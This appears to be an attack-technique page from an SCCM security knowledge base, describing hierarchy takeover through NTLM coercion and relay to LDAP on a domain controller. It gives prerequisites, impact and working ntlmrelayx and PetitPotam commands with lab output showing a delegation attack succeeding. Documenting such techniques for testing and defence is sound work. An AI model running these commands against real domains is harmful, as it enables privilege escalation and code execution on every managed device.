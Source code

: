 # TAKEOVER-8
## Description
Hierarchy takeover via NTLM coercion and relay HTTP to LDAP on domain controller

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-8.1: Coerce primary site server 
    - TAKEOVER-8.2: Coerce SMS Provider
    - TAKEOVER-8.3: Coerce passive site server
    - TAKEOVER-8.4: Coerce site database server
- Connectivity from the coercion target to any port on the relay server
- The relay server is in the intranet zone and has a valid NetBIOS name or FQDN (e.g., via ADIDNS poisoning if using a network implant)
- Coercion target settings:
    - The `WebClient` service is installed and started
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
    - Domain computer account is not `is sensitive and cannot be delegated`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to LDAP or LDAPS on the relay target, the domain controller
- Relay target settings:
    - Either LDAP signing or channel binding is not required on the domain controller
    - `RestrictReceivingNTLMTraffic` = `0` or not present
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
- For resource-based constrained delegation:
    - Control of an account's SPN
    OR
    - `MachineAccountQuota` > `0` and domain users permitted to add computer accounts

## Summary
An attacker who is able to successfully coerce NTLM authentication from the Active Directory domain computer account for a primary site server, system hosting the SMS Provider role, or passive site server via HTTP and relay it to LDAP on a domain controller can conduct resource-based constrained delegation (RBCD) or shadow credentials attacks to compromise the server, then connect to:
- MSSQL on the site database as the site server or SMS Provider (see TAKEOVER-1)
- SMB on the site database as the site server (see TAKEOVER-2)
- SMB on the SMS Provider as the site server (see TAKEOVER-6)
- SMB on the site database server or an SMS Provider as itself
- SMB on the primary site server as a passive site server, or vice versa (see TAKEOVER-7)

The attacker can use these permissions to grant an arbitrary domain account the SCCM "Full Administrator" role.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs


## Subtechniques
- TAKEOVER-8.1: Coerce primary site server 
- TAKEOVER-8.2: Coerce SMS Provider
- TAKEOVER-8.3: Coerce passive site server
- TAKEOVER-8.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-8.1 through TAKEOVER-8.4 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the domain controller and the LDAPS service and specifying options to conduct a resource-based constrained delegation attack:

    ```
    # impacket-ntlmrelayx --no-smb-server --no-wcf-server --no-raw-server -ts -ip <NTLMRELAY_LISTENER_IP> -t ldaps://<DOMAIN_CONTROLLER_IP> --http-port 8080 --no-da --delegate-access
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-28 20:31:35] [*] Protocol Client MSSQL loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client RPC loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMB loaded..
    [2024-02-28 20:31:36] [*] Protocol Client DCSYNC loaded..
    [2024-02-28 20:31:38] [*] Running in relay mode to single host
    [2024-02-28 20:31:38] [*] Setting up HTTP Server on port 8080

    [2024-02-28 20:31:38] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the coercion target via HTTP, targeting the relay server's IP address and the specified port:

    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p <PASSWORD> <NTLMRELAYX_NETBIOSNAME>@8080/a <COERCION_TARGET_IP>            

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!

    ```

    After a few seconds, you should receive an HTTP connection on the relay server that is forwarded to the domain controller to execute the RBCD attack:

    ```
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, attacking target ldaps://192.168.57.100
    [2024-02-28 21:01:54] [*] HTTPD(8080): Authenticating against ldaps://192.168.57.100 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-28 21:01:54] [*] Enumerating relayed user's privileges. This may take a while on large domains
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-28 21:01:55] [*] Attempting to create computer in: CN=Computers,DC=MAYYHEM,DC=LOCAL
    [2024-02-28 21:01:55] [*] Adding new computer with username: FCDQZAOC$ and password: OHG^rQ.yl8KcFAC result: OK
    [2024-02-28 21:01:55] [*] Delegation rights modified succesfully!
    [2024-02-28 21:01:55] [*] FCDQZAOC$ can now impersonate users on SITE-SERVER$ via S4U2Proxy
    ```

4. Obtain a service ticket for the created or specified account with an SPN, impersonating the coercion target.

5. Pass the ticket, access the coercion target, escalate to `SYSTEM`, and connect to:
- MSSQL on the site database as a site server or SMS Provider (TAKEOVER-1)
- AdminService on an SMS Provider as a site server (TAKEOVER-2)
- SMB on the site database or an SMS Provider as a site server
- SMB on the site database server or an SMS Provider as itself
- SMB on the site server as a passive site server

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Elad Shamir, Wagging the Dog: Abusing Resource-based Constrained Delegation to Attack Active Directory, https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- Garrett Foster, SCCM Hierarchy Takeover with High Availability, https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43
